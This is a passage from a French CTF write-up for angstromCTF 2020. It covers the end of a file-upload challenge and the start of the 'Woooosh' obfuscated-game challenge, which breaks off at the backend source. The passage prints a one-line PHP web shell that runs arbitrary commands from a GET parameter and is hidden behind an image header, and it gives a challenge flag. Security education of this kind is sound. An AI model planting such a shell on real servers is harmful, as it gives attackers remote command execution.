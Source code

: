 Pour cela, j'ai simplement pris une image qui traînais dans mes fichiers, j'ai supprimé tout le contenu afin de ne garder que le header, et j'ai ensuite renseigné le script PHP ci-dessous:
```php
<?php
    echo system($_GET['command']);
?>
```
Avec ce script, je suis capable d'exécuter n'importe quelle commande sur le filesystem en utilisant la paramètre `?commande=<command>` lors d'une requête.  

![Challenge](/img/angstrom_2020_crypt.png){: .center-image}

FLAG: `actf{th3_ch4ll3ng3_h4s_f4ll3n_but_th3_crypt_rem4ins}`

## Woooosh
> **DESCRIPTION**: Clam's tired of people hacking his sites so he spammed obfuscation on his [new game](https://woooosh.2020.chall.actf.co/). I have a feeling that behind that wall of obfuscated javascript there's still a vulnerable site though. Can you get enough points to get the flag? I also found the [backend source](https://files.actf.co/188f275d11eb621ad7308044f1af1bcbddc353335773e9201b4af88d9306b745/index.js).
>
> Second instance: [https://wooooosh.2020.chall.actf.co/](https://wooooosh.2020.chall.actf.co/)

Dans ce challenge, on doit réussir à marquer plus de 20 points sur le jeu. Le but étant de parvenir à trouver le cercle au milieu d'un amas de carré le plus de fois possible dans un temps imparti.  

![Challenge](/img/angstrom_2020_woosh.png){: .center-image}
Le Javascript étant obfusqué, les sources nous sont fournis dans l'énoncé du challenge.
```javascript
const express = require("express");
const exphbs = require("express-handlebars");
const socket = require("socket.io");
```